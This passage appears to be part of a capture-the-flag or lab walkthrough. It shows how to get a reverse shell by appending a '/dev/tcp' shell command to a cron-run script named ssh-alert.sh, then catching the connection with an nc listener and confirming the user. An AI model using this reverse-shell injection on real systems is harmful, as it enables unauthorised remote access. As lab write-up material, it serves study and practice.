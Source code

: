 ![](./IMG/51.png)
- So, It is possible to inject some payload like reverse shell into this shell
- And I can wait until the shell is executed again by cron job
- Inject the following payload 
```
echo "sh -i >& /dev/tcp/10.10.17.145/1338 0>&1" >> ssh-alert.sh
```
![](./IMG/53.png)
- SSH login again
- Check nc listener on 1338, it will get reverse shell 
```
nc -nlvp 1338
```
![](./IMG/54.png)
- Confirm user 
```
whoami
id
```
